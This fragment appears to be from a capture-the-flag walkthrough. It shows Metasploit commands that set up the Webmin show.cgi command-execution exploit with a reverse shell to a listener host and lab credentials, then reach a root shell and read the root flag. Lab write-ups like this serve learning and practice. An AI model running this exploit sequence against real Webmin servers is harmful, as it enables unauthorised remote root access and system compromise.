    msf6 > use 0
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PAYLOAD cmd/unix/reverse
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RPORT 10000
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.10.13.164
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > run

And get flag:

    pwd
    /usr/share/webmin/file/
    whoami
    root
    cat /root/root.txt